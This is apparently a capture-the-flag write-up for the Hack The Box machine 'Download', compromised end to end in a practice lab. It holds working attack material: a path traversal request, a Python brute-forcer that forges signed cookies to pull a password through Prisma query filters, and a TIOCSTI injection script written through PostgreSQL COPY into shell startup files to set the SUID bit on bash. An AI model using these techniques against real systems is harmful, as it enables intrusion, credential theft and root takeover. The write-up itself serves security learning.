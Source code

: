 # DOWNLOAD

# INITIAL ACCESS

## DISCOVERY

Nmap scans showed ports 22 and 80 open. Port 80 pointed to **download.htb**, which was added to **/etc/hosts**

![](screenshots/01-nmap-scan.png)

Landing page on port 80:

![](screenshots/02-landing-page.png)

It was possible to create an account on the website. Upon logging in, a **download_session** cookie was stored with base64 information which could be decoded.

![](screenshots/03-login-request.png)

![](screenshots/04-b64-decode.png)

## EXPLOIT 1 - PATH TRAVERSAL

Exploring the website, it was discovered a path traversal vulnerability on **/files/download/** by submitting the encoded **/** character: **%2f**. The following payload was used to read **app.js**:

```http
GET /files/download/..%2fapp.js HTTP/1.1
Host: download.htb
```

![](screenshots/05-traversal-req.png)

![](screenshots/06-traversal-res.png)

The **app.js** file contained the secret string to make cookies. With that, we could forge a cookie for the user with id = 1, which is most likely the admin user. For that, [cookie-monster](https://github.com/DigitalInterruption/cookie-monster) was used.

The contents of cookie.json were:

```json
{"flashes":{"info":[],"error":[],"success":[]},"user":{"id":1}}
```

![](screenshots/07-cookie-monster-id.png)

Applying the forged cookie, we discovered that the username of the admin user was **wesley**.

![](screenshots/08-wesley-panel.png)

## EXPLOIT 2 - SQL INJECTION

The web application used [prisma](https://www.prisma.io/docs/getting-started/quickstart) to connect to the database. Further reading the documentation, we discover how to send queries and how to use **"startsWith"** in queries.

With that knowledge, a custom brute-forcer was used to forge a cookie that would loop through ASCII characters to identify the password of **wesley**.

```python
#!/usr/bin/env python3

import string
import subprocess
import json
import re
import requests

regex = r"download_session=([\w=\-_]+).*download_session\.sig=([\w=\-_]+)"

def writeJson(j):
	with open("cookie.json", "w") as f:
		f.write(json.dumps(j))

def generateCookieAndSign(startsWith):
	j = {"user":{"username":{"contains": "WESLEY"}, "password":{"startsWith":startsWith}}}
	writeJson(j)
	out = subprocess.check_output(["/home/kali/.yarn/bin/cookie-monster", "-e", "-f", "cookie.json", "-k", "8929874489719802418902487651347865819634518936754", "-n", "download_session"]).decode().replace("\n"," ")
	matches = re.findall(regex, out, re.MULTILINE)[0]
	return matches

passwd = ""
alphabet="abcdef"+string.digits
for i in range(32):
	for s in alphabet:
		p = passwd + s
		(download_session, sig) = generateCookieAndSign(p)
		cookie = {"download_session": download_session, "download_session.sig": sig}
		print(p, end='\r')
		r = requests.get('http://download.htb/home/', cookies=cookie)
		if len(r.text) != 2174:
			passwd = p
			break
print()
print(passwd)     
```

In the end, a MD5 hash of the password was brute-forced and easily cracked.

![](screenshots/09-wesley-password.png)

![](screenshots/10-password-cracked.png)

The password was also valid for SSH access.

![](screenshots/11-wesley-shell.png)

# PRIVILEGE ESCALATION

## DISCOVERY

Enumerating system files, we discover a file containing the postgreSQL credentials on **/etc/systemd/system/download-site.service**.

![](screenshots/12-psql-creds.png)

Also, we could see that **postgres** was a system user with its home directory on **/var/lib/postgresql**.

![](screenshots/13-postgres-passwd.png)

## EXPLOIT 3 - TTY PUSHBACK

On this box, running **pspy**, it was noted that the root user was logging in the **postgres** account and executing queries every few minutes. We could abuse this to inject commands in the **.bashrc** and **.bash_profile** files. This way, every time the user logged as **postgres**, the commands on **.bash_profile** would be executed.

However, this would only lead to a shell as **postgres**.

To bypass this, an old vulnerability could be leveraged: [TTY Pushback](https://www.errno.fr/TTYPushback.html).

Following the steps on the blog linked, we wrote the following script on **/tmp/inj.py**:

```python
#!/usr/bin/env python3
import fcntl
import termios
import os
import sys
import signal

os.kill(os.getppid(), signal.SIGSTOP)

for char in sys.argv[1] + '\n':
	fcntl.ioctl(0, termios.TIOCSTI, char)
```

Then we wrote to **.bashrc** and **.bash_profile** the following contents:

```sql
COPY (SELECT '###') TO '/var/lib/postgresql/.bashrc';
COPY (SELECT 'python3 /tmp/inj.py "chmod +s /bin/bash"') TO '/var/lib/postgresql/.bash_profile';
```

![](screenshots/14-psql-injection.png)

This resulted in adding the SUID bit to **/bin/bash** and becoming root.

![](screenshots/15-root-shell.png)
